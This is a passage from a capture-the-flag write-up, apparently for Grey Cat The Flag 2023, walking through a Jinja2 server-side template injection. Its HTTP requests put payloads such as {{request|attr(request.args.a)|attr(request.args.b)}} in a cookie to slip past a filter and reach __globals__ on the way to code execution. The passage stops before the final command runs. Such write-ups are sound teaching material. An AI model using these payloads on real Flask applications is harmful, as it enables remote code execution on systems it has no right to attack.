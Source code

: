 Let's do this!

Since `request` object instance is not filtered, we can use that to gain RCE:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521124240.png)

**First, we'll pipe that `request` object to `attr(request.args.<GET_Parameter>)`. The `attr()` is to get an attribute of an object:**
```http
GET /?service=adminpage&a=application HTTP/1.1
Cookie: user={{request|attr(request.args.a)}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521124755.png)

We now got the `Request.application` method!

**Then, we can use the `__globals__` attribute to find all the function's global variables:**
```http
GET /?service=adminpage&a=application&b=__globals__ HTTP/1.1
Cookie: user={{request|attr(request.args.a)|attr(request.args.b)}}
```
